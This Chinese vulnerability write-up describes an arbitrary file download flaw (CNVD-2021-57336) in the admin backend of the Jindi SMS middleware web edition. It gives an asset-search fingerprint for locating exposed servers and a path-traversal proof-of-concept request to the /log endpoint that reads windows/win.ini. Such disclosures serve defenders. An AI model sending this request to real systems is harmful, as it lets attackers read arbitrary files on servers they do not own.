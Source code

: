 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

<a-checkbox checked>金笛 短信中间件Web版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金笛短信中间件(WEB版)"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630892591726-addf7f10-4238-4266-92ef-758540f4142a.png)

存在漏洞的位置为 日志下载

![img](/assets/PeiQi-Wiki/img/1630892623230-03e19886-0499-4cbb-9cbf-abf9ca8ec2e2.png)

验证POC

```python
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![img](/assets/PeiQi-Wiki/img/1630892646440-d5dfd8da-0c22-49e4-86c3-d2978938f824.png)
